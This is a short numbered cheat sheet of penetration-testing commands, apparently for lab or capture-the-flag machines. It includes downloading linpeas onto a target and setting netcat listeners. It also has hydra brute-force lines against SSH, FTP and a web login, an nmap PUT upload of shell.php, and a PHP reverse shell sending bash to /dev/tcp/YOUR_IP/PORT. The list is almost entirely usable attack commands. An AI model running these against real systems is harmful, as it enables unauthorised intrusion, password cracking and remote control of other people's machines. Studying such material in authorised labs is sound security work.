 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on target machine
2. python3 -m http.server 80 - setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
